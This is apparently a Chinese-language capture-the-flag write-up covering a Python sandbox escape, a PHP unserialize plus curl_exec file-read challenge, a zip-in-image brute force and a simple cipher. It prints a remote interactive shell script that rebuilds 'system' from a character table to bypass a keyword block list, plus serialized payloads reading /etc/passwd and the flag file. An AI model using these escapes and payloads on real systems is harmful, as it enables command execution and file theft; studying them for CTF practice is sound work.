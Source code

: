 ## escape

收获:了解了python沙箱逃逸这种类型

getattr:对沙箱逃逸有很大作用





list(s)获得字符集,可以用来绕过引号限制

试了一下system

```python
banned=  ["'", '"', '.', 'reload', 'open', 'input', 'file', 'if', 'else', 'eval', 'exit', 'import', 'quit', 'exec', 'code', 'const', 'vars', 'str', 'chr', 'ord', 'local', 'global', 'join', 'format', 'replace', 'translate', 'try', 'except', 'with', 'content', 'frame', 'back']
```

发现引号和点都被过滤了,不过提示说

```python
def hello():
   os.system("echo hello")
```



说明是可以通过调用system来完成,接下来就是想办法得到system函数了

而引号被过滤可以用字符串s里的值来绕过



```python
#考虑这样来
a=getattr(os,'system')
a("命令")
```

```python
def get_str(string):
    result=''
    for i in string:
        result+='table['+str(table.index(i))+']+'
    return result[:-1]
conn=remote('47.97.253.115',10005)
conn.sendline('table=list(s)')
conn.sendline('sys='+get_str('system'))
conn.sendline('fun=getattr(os,sys)')
while 1:
        command=input('(www):$')
        new_com='fun('+get_str(command)+')'
        conn.sendline(new_com)
        print(conn.recvuntil('>>>'))
conn.close()

```



flag{4EEAA88DA0B3207862D2E4876AF84A3D}

## strange_ssid

这题是结束听别人讲的

所有的数据都是32个字符

所以猜测是md5加密

找出符合md5格式的数据

68dffd5a1be838b5326209714f7ea7a5

解密后提交flag{n3k0}失败

直接提交flag{68dffd5a1be838b5326209714f7ea7a5}试试

成功

## **ezphp**



收获:知道了curl_exec 本地文件读取

```php
<?php

class Hello {
    protected $a;

    function test() {
        $b = strpos($this->a, 'flag');
        if($b) {
            die("Bye!");
        }
        $c = curl_init();
        curl_setopt($c, CURLOPT_URL, $this->a);
        curl_setopt($c, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($c, CURLOPT_CONNECTTIMEOUT, 5);
        echo curl_exec($c);
    }
    
    function __destruct(){
        $this->test();
    }
}

if (isset($_GET["z"])) {
    unserialize($_GET["z"]);
} else {
    highlight_file(__FILE__);
}
```



curl_exec+反序列化

试了下本地文件读取

O:5:"Hello":1:{s:1:"a";s:27:"file://localhost/etc/passwd";}

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwj7l0c4j30wp0ax407.jpg)

题目过滤flag字符

说明我们flag就在flag文件里

谷歌看了好久，后来看一道又curl_exec的题目，获得了url二次编码的思路

最后的payload:

http://47.97.253.115:10006/?z=O:5:%22Hello%22:1:{s:1:%22a%22;s:23:%22file://localhost/%2566lag%22;}

这里有一些坑就是:

1. 你不知道flag文件在哪个文件夹,结果最后就在根目录。。

2. 因为是二次编码所以要注意字符串的长度



## **onion's_secret**

下载得到一个压缩包，常规的检查走一遍

发现onion.jpg文件尾后还有数据

![](http://ww1.sinaimg.cn/large/006pWR9agy1g5uwp2ulyrj30jj079dif.jpg)

zip格式,get一个新的加密压缩包

密码在hint里有提示

接下来就是很普通的写python了

```python
import zipfile
def burp(filename,hint):
    password=''
    i=0
    for i in range(32,128):
        password=hint.replace('?',chr(i))
        with zipfile.ZipFile(filename) as myzip:
            try :
                print("解密:"+filename+":"+password)
                myzip.read('onion.zip',pwd=bytes(password,encoding='ascii'))
                break
                return password
            except RuntimeError: 
                print("解密失败")
            except FileNotFoundError:
                input('过来康康')
            except zipfile.zlib.error:
                print("跳过")
    if i==127:
        print("爆破失败")
        exit()
    print('爆破成功'+password)
    return password

def writebyte(bbyte,filename):
    f=open(filename,'wb')
    f.write(bbyte)
    f.close()
def readbyte(filename):
    f=open(filename,'rb')
    bbyte=f.read()
    f.close()
    return bbyte

nullbyte=b''
while 1:
    f=open('temp.txt','r')
    hint=f.read()[12:]
    f.close()
    pwd=burp('onion1.zip',hint)
    
    with zipfile.ZipFile('onion1.zip') as myzip:
        str=myzip.read('onion.zip',pwd=bytes(pwd,encoding='ascii'))
        writebyte(str,"temp.zip")
        str=myzip.read('hint.txt',pwd=bytes(pwd,encoding='ascii'))
        writebyte(str,"temp.txt")
    writebyte(readbyte('temp.zip'),'onion1.zip')
    

```

## **commom_encrypt**

读代码就完事了

```python
def encrypt(data,groupnums):
    a=[]
    b=[]
    section=int(len(data)/groupnums)
    for i in range(0,len(data),section):
        a.append(data[i:i+section])
    for i in range(section):
        for j in range(groupnums):
            b.append(a[j][i])
    cipher=(''.join(chr(ord(b[i])^i) for i in range(len(b))))
    return cipher
def decrypt(data):
    result=[]
    for i in range(1,len(data)+1):
        result.append(encrypt(data,i))
    return result

may_r=decrypt('f^n2ekass:iy~>w|`ef"${Ip)8if')
for i in may_r:
    print(i[::2]+i[1::2])
```



